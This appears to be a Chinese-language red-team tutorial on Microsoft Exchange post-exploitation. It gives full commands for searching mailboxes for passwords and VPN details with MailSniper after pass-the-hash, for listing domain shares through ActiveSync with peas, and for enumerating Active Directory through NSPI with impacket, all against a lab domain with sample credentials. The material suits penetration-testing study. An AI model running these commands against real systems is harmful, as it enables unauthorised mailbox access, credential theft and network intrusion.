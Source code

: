 
### 搜索自身邮件

如果爆出了密码，直接 web端访问 /OWA 登录查看。

如果获得了 hash，可以 pth 后 Invoke-SelfSearch 访问 /ews 查看：
```bash
# MailSniper.ps1
# 指定 lisi 的账密查询 lisi 的所有邮件
Invoke-SelfSearch -Folder all -Mailbox lisi@island.com -ExchHostname win2012-ex2016.island.com -MailsPerUser 500 -Terms "*password*","*creds*","*credentials*","*测试*","*密码*","*拓扑*","*运维*","*VPN*","*账号*" -OutputCsv lisi-email-search.csv -Remote -User island.com\lisi -Password LS@123qwe

# 用当前会话的默认凭证搜索 zhangsan 的所有邮件
# 配合 mimikatz 实现 pth 后搜索
Invoke-SelfSearch -Folder all -Mailbox zhangsan@island.com -ExchHostname win2012-ex2016.island.com -MailsPerUser 500 -Terms "*password*","*creds*","*credentials*","*测试*","*密码*","*拓扑*","*运维*","*VPN*","*账号*" -OutputCsv zhangsan-email-search.csv
```

---

### 搜索共享文件

老版本 Exchange 支持查看域内文件共享，且支持移动端通过 `/Microsoft-Server-ActiveSync` 远程访问网络内部的共享文件。在 Exchange 2010 及其后续版本中，删除了 Outlook 的文件共享权限，但通过 `/Microsoft-Server-ActiveSync` 接口依然可以。

```bash
# UNC 路径仅支持主机名，不支持 IP 和 FQDN
python2 -m peas 192.168.123.123
python2 -m peas 192.168.123.123 -u island.com\zhangsan -p ZS@123qwe --check
python2 -m peas 192.168.123.123 -u island.com\zhangsan -p ZS@123qwe --list-unc="\\WIN2012-DC1"
```

在实战中，如果已经拿下域机器了，这个手法的使用意义不大。但是如果在域外，或者是直接攻击互联网上的 Exchange，这种手法不失为一种收集共享文件的方法，配合下面的方法收集域内所有主机名再查询共享文件效果更佳。

---

### 搜索域信息

/rpc 接口支持各种远程调用，其中包括 `[MS-OXNSPI]` 协议，该协议用于客户端从 Exchange 服务器获取 OAB 数据。Exchange 本身并不存储地址簿数据，而是通过 `[MS-NSPI]` 协议与域控通信，访问 Active Directory 来获取地址簿数据。

`[MS-OXNSPI]` 和 `[MS-NSPI]` 协议都是用于获取地址簿数据的，区别是前者用于客户端与 Exchange 通信，后者用于 Exchange 与域控通信。因此，`[MS-NSPI]` 也是继 LDAP 和 `[MS-DRSR]`（也称为 DcSync 和 DRSUAPI）之后第三个访问 Active Directory 的网络协议。

遗憾的是，`[MS-OXNSPI]` 和 `[MS-NSPI]` 并不能获取全部的 Active Directory 属性，而是 X.500 空间集的属性。而且，根据微软文档描述，这两个协议仅用于获取 AD（Active Directory） 中的地址簿数据，而不能访问整个 AD 条目。不过研究人员发现，可以通过爆破 DNT（Distinguished Name Tags）的方式遍历全部 AD 条目，但是依然无法获取额外的 AD 属性。

```bash
# 需要修改 exchanger.py，否则保存的时候可能会报解码错误。
class Exchanger:
    ......
    ......
    def set_output_file(self, filename):
        self.__outputFileName = filename
        # self.__outputFd = open(self.__outputFileName, 'w+')
        self.__outputFd = open(self.__outputFileName, 'w+', encoding="utf-8") # 添加 encoding="utf-8"

# impacket
python3 exchanger.py island.com/zhangsan:ZS@123qwe@192.168.60.116 nspi dnt-lookup -start-dnt 0 -stop-dnt 100000 -lookup-type FULL -output-file dnt.txt
```
